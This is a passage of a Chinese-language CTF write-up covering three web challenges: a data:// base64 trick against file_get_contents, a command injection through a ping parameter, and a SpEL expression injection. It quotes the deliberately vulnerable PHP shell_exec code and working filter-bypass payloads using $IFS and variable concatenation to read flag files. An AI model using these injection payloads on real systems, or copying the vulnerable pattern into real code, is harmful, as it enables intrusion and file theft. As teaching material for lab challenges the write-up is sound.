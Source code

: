 从get参数的two传递一个路径，获取这个路径的值，并且与one中的值比较，如果相等则输出flag。

这个题目的关键是如何将two的值变为我们可控的一个值，正好file_get_contents支持获取base64编码的data值，由此构造一个请求。

```text
http://10.167.15.103/?one=mictf&two=data%3a%2f%2ftext%2fplain%3bbase64%2cbWljdGY%3d
```

### web-24 简约但不简单

ping命令绕过，找到了一个原题。

首先获取index.php代码，绕过空格。 `?ip=1;cat$IFS$1index.php`

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  // $a = shell_exec("ping -c 4 ".$ip);
  $a = shell_exec("ping ".$ip);
  echo "

";
  print_r($a);
}

?>
```

看到代码确定是原题了。用拼接的方法，绕过对flag顺序的检测 `?ip=1%3ba%3dag.php%3bb%3dfl%3bcat%24IFS%241%24b%24a`

### web-25 神奇的计算器

随便输入一个表达式，会自动包裹`#{}`然后返回表达式结果，猜测是spEL的表达式引擎。spEL表达式可以通过T()获取类，然后利用内部的类执行一些命令。

思路是这样，实际操作过程中，发现过滤了很多关键词

```text
getClass
exec
lang
forName
```

这就导致getClass()然后forName()获取对应类的方法无法使用了。

试了好几个方法，终于发现一个读文件的方式没有被过滤，根据前几个Java题猜测（可能是一个人出的题目）flag的文件名是`flag.txt`。写入脚本成功获取flag。
